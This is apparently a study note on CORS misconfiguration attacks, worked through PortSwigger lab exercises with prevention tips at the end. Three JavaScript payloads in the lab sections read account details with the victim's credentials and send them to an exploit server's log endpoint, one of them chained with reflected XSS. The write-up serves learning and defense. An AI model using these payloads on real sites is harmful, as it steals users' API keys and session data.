






## What is CORS?
**CORS:** a browser mechanism relaxing the Same Origin Policy (SOP), allowing controlled access to resources **located outside of a given domain.**

The protocol uses **several `HTTP` headers to define trusted web origins for a given site/webserver**, and the associated CORS interaction properties (e.g. whether authenticated access `Access-Control-Allow-Credentials` is permitted).


### Testing for CORS:
E.g. to test whether a requesting website (e.g. your `attacker.site`) can **read the response** to a cross-origin request (to `victim.site`) containing credentials like cookies:
- Send: `Origin: attacker.site` in your request
- Send `Origin: null`, `Origin: *`, etc.
	- *However, browsers will **never send cookies** when `Origin: *` is sent.*
- Do other checks for cases below
- Check whether you get `Access-Control-Allow-Credentials: true` back
**Request:**
``` HTTP
GET /data HTTP/1.1 
Host: robust-website.com ... 
Origin: https://normal-website.com 
Cookie: JSESSIONID=<value>
```
**Response:**
``` http
HTTP/1.1 200 OK 
... 
Access-Control-Allow-Origin: https://normal-website.com 
Access-Control-Allow-Credentials: true
```
If `Access-Control-Allow-Credentials: true`, then the browser will **permit the requesting website to read the response**.

- *Due to legacy requirements, the `SOP` is more relaxed when dealing with **cookies**, so they are often **accessible from all subdomains of a site even though each subdomain is technically a different origin**. You can partially mitigate this risk using the `HttpOnly` cookie flag.*

##### Pre-flight checks
When a cross origin request contains nonstandard HTTP headers (e.g. `Access-Control-Request-Headers: Special-Request-Header`), a preflight `OPTIONS` request is sent to the target site to check what **methods & headers are permitted prior to allowing the cross-origin request.**

==CORS DOES NOT PROTECT AGAINST CSRF - IT IS A RELAXING OF THE SOP, AND CAN INCREASE THE RISK OF CSRF BY ALLOWING CROSS-DOMAIN REQUESTS==


## Case #1: Server-generated `ACAO` header from client-specified `Origin` header
To allow sharing of resources from other sites, some websites will **read the `Origin` header from requests** and permit interactions from it to read the responses by **setting the response header**, `Access-Control-Allow-Origin`, stating that the **requesting origin is allowed**. 
May also (dangerously) allow access to the credentials retrieved from the request with `Access-Control-Allow-Credentials`.

##### Lab #1: [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
Test if an arbitrary `Origin` is reflected, and whether credentials can be sent to said origin:

Thus can potentially issue this GET request to a logged-in victim's account if they visit our malicious site, and have the response + credentials **sent to our origin** `foo.com`.

Thus, can host this script on our site to issue a CORS request:
``` js
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ac50020041f6082806f671d0044004f.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='/log?key='+this.responseText;
};
</script>
```

- https://www.youtube.com/watch?v=XTFDst3TjMM&t=473s

### Errors in parsing `Origin` headers
Often occurs when websites uses whitelists to permit access from specific `Origins`, or patterns based off the supplied `Origin`. E.g.
- Matching **URL prefixes**, **suffixes** or **phrases**
	- Beginning with (`normalsite.net`) --> (attacker uses `normalsite.net`**`.badsite.com`**)
	- Containing (`-safesite.net`) --> attacker registers **`badsite`**`-safesite.net`**)
- **Regex expressions**

### Using `Origin: Null` 
Some sites **may whitelist the `null` origin**, due to browsers occasionally returning it in certain edge cases. These include:
- Cross-origin redirects
- Requests from serialized data
- Requests using the `file://` protocol
- Sandboxed cross-origin requests, e.g. a sandboxed `<iframe>`
If a `null` origin is permitted & allowed by a site (via a response of `Access-Control-Allow-Origin: null`), an attacker can attempt to generate a cross-origin request containing the value `null` in the `Origin` header.

#### Lab 2: [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
By supplying an arbitrary Origin, we see ***only*** `Access-Control-Allow-Credentials: true` is returned, so it is **not allowing just any origin**. Trying `Origin: null`, we see that is reflected:
Thus, need to initiate a request supplying an `Origin: null` header to exploit. Can do so with a **sandboxed iframe:**

``` js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a510028045e73c1808f2b310009003e.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0acc008f0428736280f02a34010f0097.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```
- *Make sure to supply https:// for each location, otherwise SOP will block it!*

Using this, when visited, we can see a cross-origin request is initiated with our session (which is not logged in, hence the "Unauthorised"). So are **successfully setting `Null` header**.


Deliver to victim, and get API key!


### Exploiting XSS via CORS trust relationships
If a given domain/subdomain is trusted, if **exploitable XSS exists on said domain/subdomain** it can be **used to initiate malicious but trusted cross-origin requests**.
E.g. if there's reflected XSS in a URL parameter:
- `https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`
... the victim could be sent this link which, upon clicking, executes javascript that initiates a COR from the "trusted" `subdomain.vulnerable-website.com` to retrieve and log the victim's credentials, if the target site responds with:
``` http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

### Breaking TLS with poorly configured CORS
If a subdomain using `HTTP` is **a trusted origin**, an **on-path adversary** that can **access/intercept requests** to said HTTP site can use that to compromise the victim's interaction with the application.
Can either do this if you have:
- **AiTM access** (manipulate requests/responses from said http site)
- OR via an alternative method, like **reflected XSS in the `HTTP` site's URL**

Can chain with an XSS on a related site to achieve this:

#### Lab: [CORS via reflected XSS on trusted HTTP subdomain](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
Tried testing `Null`, arbitrary site, and `*`, but none are reflected. However, browsing the site a bit more, notice the Check Stock feature redirects to a subdomain: `stock.0a69009403e2d086803f0356005f0052.web-security-academy.net`
This appears to be trusted, but **specifically over HTTP**.


Further, when probing that site, is vulnerable to reflected XSS via the productID parameter:
`https://stock.0a69009403e2d086803f0356005f0052.web-security-academy.net/?productId=<script>alert(1)</script>&storeId=1`


So, when the victim views our adversary server, it must:
- Initiate a redirect to the check stock site *with* a script containing a malicious CORS request.
- When victim lands on the check stock site, XSS script fires & initiates a cross-origin request from this **trusted HTTP domain**.
- Credentials are logged to adversary's server.

Testing against myself, when visiting page it triggers:


So, after crafting a redirect URL as soon as victim visits our exploit page:
``` js
<script>
document.location = "http://stock.0a69009403e2d086803f0356005f0052.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a69009403e2d086803f0356005f0052.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send();function reqListener() {location='https://exploit-0aab004a0324d0fb80170269013f0048.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
We can see it:
- Redirects to vulnerable site with XSS payload in url
- XSS payload fires on check product site, which initiates cross-domain request to `/accountDetails` then reads & sends response to attacker's server.




### Intranets and CORS without credentials
Attackers may also be able to use CORS as a way to proxy traffic from internal networks/intranets, that would otherwise be inaccessible to them.

E.g. if a site on an internal intranet is accessed & allows for any `Origin`:
**Request:**
``` http
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://attacker-site.com
```
**Response: `Access-Control-Allow-Origin: *`**
... if the victim on the internal intranet accesses the public internet site `https://attacker-site.com`, a CORS request could be sent from their to proxy their traffic to the internal `intranet.normal-website.com` site.

## Preventing CORS attacks
- Permitted origins should be **trusted** & **explicitly set** in `Access-Control-Allow-Origin` headers
- **Avoid whitelisting `Origin: null**`**
- **Avoid `Access-Control-Allow-Origin: *` for internet networks**
- **Do not rely on CORS for authentication and session management** - do that server side.
